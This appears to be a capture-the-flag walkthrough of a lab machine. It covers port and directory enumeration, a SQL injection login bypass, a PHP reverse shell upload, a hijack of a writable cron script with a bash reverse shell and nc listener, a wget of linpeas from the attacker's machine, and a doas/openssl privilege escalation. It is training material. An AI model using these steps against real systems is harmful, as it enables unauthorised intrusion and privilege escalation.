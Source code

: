 # nmap

# Command
```sh
nmap -sV -sC -v 10.10.113.22
```

# Result
```sh
Scanning 10.10.113.22 [1000 ports]
Discovered open port 445/tcp on 10.10.113.22
Discovered open port 80/tcp on 10.10.113.22
Discovered open port 22/tcp on 10.10.113.22
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
| 256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_ 256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
```

# 80-http

To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



# gobuster 

## Command
```sh
gobuster dir -u http://10.10.113.22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
# Result
```sh
Starting gobuster in directory enumeration mode
===============================================================
/admin
(Status: 301) [Size: 312] [--> http://10.10.113.22/admin/]
/shadow
(Status: 200) [Size: 25]
/passwd
(Status: 200) [Size: 25]
```

# View_web
![[Pasted image 20241028211913.png]]

Nothing much

visit directories from gobuster scan
-------------------

/admin
-------------------

![[Pasted image 20241028211930.png]]
id_rsa =`VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE`  
![[Pasted image 20241028211955.png]]

Decode the base64 using cyberchef = “Trust me it is not this easy..now get back to enumeration :D”  


/shadow
------------------------------------------
we get this text = `bm90IHRoaXMgZWFzeSA6RA==`  
First we identify it using Cipheridentifier  
Then use Cyberchef to decode it = “not this easy :D ”


/passwd
------------------------------------------
We get the same text = `bm90IHRoaXMgZWFzeSA6RA==`


# 445-tcp

To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



# gobuster
## Command
```sh
gobuster dir -u http://10.10.113.22:445 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
#Results
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/management
(Status: 301) [Size: 322] [--> http://10.10.113.22:445/management/]
```

# View_web
## ip address `http://10.10.113.22:445/management/`
![[Pasted image 20241028212035.png]]

management/admin/login.php
---------------------------------------------------------------
Tried  sql injection and i worked with the first trial :)  

![[Pasted image 20241028212046.png]]
`It's actually “ admin' or '1'='1  `  

Now i searched for a place to upload my reverse shell script.  
Found in admin user settings allows one to upload a file and that's my way in.I hope so.  
Using the php reverse shell script i got a shell.  


Stabilising shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

$ ls -l
total 8
drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28 2021 tms_backup
-rw-rw---- 1 plot_admin plot_admin 33 Oct 28 2021 user.txt
```
found the user flag but lack the permisions to view it.  
Checking the /etc/crontab.  
I found a backup.sh file that is running after some time .  

At this point was stuck.
But the file is under our control thus i can edit it .  

Generated a bash reverse shell using an online reverse shell generator.  
Then preserved the contents of the origin backup.sh into another file.  
Created one of my own and gave it executable permissions.  
![[Pasted image 20241028212247.png]]

Encounted some issues but later on used my machine to create the file and give it executable permissions.  
Then used python server and wget to load it on to the machine.  

After this we run nc to listen on the port
```sh
nc -lvnp 5555
```
![[Pasted image 20241028212320.png]]


## prive2
I downloaded linpeas in my machine then used python3 -m http.server.  
Used wget to load the file into the attack machine.  
```sh
chmod +x linpeas
To run use = ./linpeas
```

![[Pasted image 20241028212338.png]]

```sh
cat /etc/doas.conf
doas openssl enc -in /root/root.txt

```
![[Pasted image 20241028212424.png]]

